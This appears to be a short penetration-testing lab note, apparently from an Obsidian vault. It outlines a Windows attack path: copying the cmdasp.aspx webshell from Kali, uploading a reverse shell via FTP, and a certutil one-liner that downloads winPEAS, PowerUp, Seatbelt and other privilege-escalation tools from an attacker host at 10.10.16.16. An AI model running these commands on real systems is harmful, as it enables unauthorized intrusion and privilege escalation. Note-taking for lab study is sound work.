 Scanning

[[1._Steps#Scanning]]

![[0._PHP Webshells#asp aspx cfm jsp laudanum perl php]]


>```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx

![[Port 21 - FTP ~#Upload reverse shell]]

![[1._rlwrap]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[0.__PrivEsc Tools (WINDOWS)#Unzipped]]


```batch - windows
mkdir Tools && cd Tools && certutil -urlcache -split -f http://10.10.16.16/jaws-enum.ps1 && certutil -urlcache -split -f http://10.10.16.16/PowerUp.ps1 && certutil -urlcache -split -f http://10.10.16.16/Seatbelt.exe && certutil -urlcache -split -f http://10.10.16.16/Sherlock.ps1 && certutil -urlcache -split -f http://10.10.16.16/winPEAS.bat && certutil -urlcache -split -f http://10.10.16.16/winPEASx86.exe
```

![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]



